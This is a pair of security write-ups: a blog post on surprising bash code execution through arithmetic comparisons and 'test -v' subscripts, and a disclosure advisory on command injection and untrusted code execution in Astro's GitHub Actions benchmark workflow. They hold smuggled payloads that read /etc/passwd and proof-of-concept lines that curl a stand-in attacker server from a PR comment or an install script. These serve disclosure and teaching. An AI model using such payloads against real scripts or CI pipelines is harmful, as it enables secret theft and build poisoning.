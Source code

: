 ##
#
https://yossarian.net/til/post/some-surprising-code-execution-sources-in-bash/
#
##


Some surprising code execution sources in bash
2024-11-15
security shell
I ran across two surprising sources of code execution in bash (and probably other shells) recently.

In a historic context these probably weren't too serious of a problem, but in the context of CI systems where everything is a rats' nest of shell and YAML they could be useful execution primitives.

Edit 2024-11-22: the Bash Pitfalls page in the Wooledge Bash Guide contains examples of these, among other sources of surprising evaluations.

Source 1: arithmetic expressions (a.k.a. "white-collar eval")
Leading question aside, do you think this snippet of bash1 can run arbitrary code?
```
function guess() {
  num="${1}"
  if [[ "${num}" -eq 42 ]]
  then
    echo "Correct"
  else
    echo "Wrong"
  fi
}
```
Most people (including experienced shell programmers2) say "no": they recognize that there could have been a splatting bug if it was $num instead of "${num}", but the double quoting should firmly prevent any evaluation of the num variable itself.

But nope: because of -eq, num is treated with bash's arithmetic evaluation rules, meaning that this works:
```
$ guess 'a[$(cat /etc/passwd > /tmp/pwned)] + 42'
Correct
$ cat /tmp/pwned
```
Note the single quotes: $(cat /etc/passwd > ~/pwned) is not executed eagerly as a parameter to guess, but as part of the evaluation of -eq within [[.

Unlike the case below, this doesn't appear to work with [ or test.

Source 2: test -v
The same surprising code execution source exists with test -v var, under the same conditions as arithmetic expressions (needs to use the builtin, not the standard binary):
```
$ [[ -v 'x[$(cat /etc/passwd > /tmp/pwned)]' ]]
$ cat /tmp/pwned
```
This also works with [ and test, so long as their builtin variants are used instead of their external binary variants. /usr/bin/[ and /usr/bin/test will of course not work, since they have no access to the context of the shell that spawned them.

I'm not 100% sure why this is the case, since -v var is documented as testing whether var is set and it shouldn't be necessary to evaluate a subscript to determine that.

Edit 2024-11-22: Multiple people have pointed out that -v var[...] checks for the subscript's presence, hence the "need" to evaluate expressions. This is not well documented anywhere, as far as I can tell.

Minimized and tweaked from Vidar Holen's blog, where I learned about this! ↩

I polled my coworkers: of 17 respondents, 16 through this snippet was fine and 1 thought it contained a potential vulnerability. ↩



##
#
https://securitylab.github.com/advisories/GHSL-2024-148_GHSL-2024-149_Astro/
#
##


Author avatar
Alvaro Munoz
Coordinated Disclosure Timeline
2024-07-05: Reported through Private Vulnerability Report.
2024-10-11: Fix commit.
Summary
Astro contains Actions workflows that are vulnerable to Code Injection and Execution of Untrusted Code which could be leverage to steal secrets and poison the cache.

Project
Astro

Tested Version
Latest commit at the time of reporting

Details
The benchmark.yml workflow is triggered on new comments (issue_comment) containing the magic word !bench. In order to trigger the workflow, the comment needs to be added to a pull request in the Astro org (github.repository_owner == 'withastro').

The permissions are set to contents: read but the workflow has access to the TURBO_TOKEN secret which seems to be a Vercel access token that could lead to cache poisoning and, transitively, to release poisoning.

It is not clear if the repo requires approval for new contributors or all contributors, but an attacker should be able to create a Pull Request and while it waits to be approved, a !bench xxx comment on it will trigger the vulnerable workflow.

Issue 1: Code Injection (GHSL-2024-148)
The comment body is processed and everything after !bench magic word is assigned to the benchcmd environment variable and later to the steps.bench-command.outputs.bench workflow variable. This variable contains untrusted command and is later interpolated into a Run shell script leading to shell injection:

      - name: Get bench command
        id: bench-command
        env:
          # protects from untrusted user input and command injection
          COMMENT: ${{ github.event.comment.body }}
        run: |
          benchcmd=$(echo "$COMMENT" | grep '!bench' | awk -F ' ' '{print $2}')
          echo "bench=$benchcmd" >> $GITHUB_OUTPUT
        shell: bash

      - name: Run benchmark
        id: benchmark-pr
        run: |
          result=$(pnpm run --silent benchmark ${{ steps.bench-command.outputs.bench }})
          processed=$(node ./benchmark/ci-helper.js "$result")
          echo "BENCH_RESULT<<BENCHEOF" >> $GITHUB_OUTPUT
          echo "### PR Benchmark" >> $GITHUB_OUTPUT
          echo "$processed" >> $GITHUB_OUTPUT
          echo "BENCHEOF" >> $GITHUB_OUTPUT
        shell: bash
PoC
Add the following comment to a PR:

!bench `curl https://attacker-server.com`
And check that the attacker server receives a connection from the workflow runner.

Impact
This issue may lead to the leakage of the TURBO_TOKEN secret and to GitHub Actions Cache Poisoning since an attacker may be able to steal the cache token and use it to poison the build dependencies used in other workflows.

Remediation
Make sure that the bench command only contains allowed characters
Issue 2: Execution of untrusted code (GHSL-2024-149)
The workflow checkouts untrusted code (PR head) in:

      - uses: actions/checkout@v4
        with:
          persist-credentials: false
          ref: refs/pull/${{ github.event.issue.number }}/head
And then run commands that may lead to execution of the untrusted code. Eg:

      - name: Install dependencies
        run: pnpm install
PoC
An attacker can send a Pull Request with a packages.json containing a script to be run when pnpm install is executed:

"scripts": {
    "prepare": "curl https://attacker-server.com",
},
Impact
This issue may lead to the leakage of the TURBO_TOKEN secret and to GitHub Actions Cache Poisoning since an attacker may be able to steal the cache token and use it to poison the build dependencies used in other workflows.

Resources
https://github.com/withastro/astro/security/advisories/GHSA-qm79-6wq7-m5wg
Credit
